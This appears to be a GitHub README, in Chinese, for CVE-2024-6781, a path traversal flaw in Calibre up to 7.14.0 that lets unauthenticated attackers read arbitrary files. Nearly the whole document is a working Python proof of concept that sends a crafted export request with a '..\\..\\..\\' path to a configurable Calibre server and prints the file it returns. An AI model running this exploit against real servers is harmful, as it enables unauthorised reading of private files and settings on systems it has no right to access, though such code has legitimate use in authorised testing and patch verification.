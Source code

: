 # Calibre任意文件读取漏洞(CVE-2024-6781)

Calibre <= 7.14.0 中的路径遍历允许未经身份验证的攻击者实现任意文件读取。

## poc

```python
#! /usr/bin/env python3
# Ldwk
# PoC for: CVE-2024-6781
import json
import sys

import requests

_target = "http://localhost:8080" # SET ME
_book_id = 1 # ensure book_id exists

def exploit(path):
    r = requests.post(
        f"{_target}/cdb/cmd/export",
        headers={"Content-Type": "application/json"},
        json=["extra_file", _book_id, path, ""],
    )
    try:
        print(r.json()["result"])
    except Exception:
        print(r.text)

if __name__ == "__main__":
    exploit("..\\..\\..\\Calibre Settings\\gui.json")

```

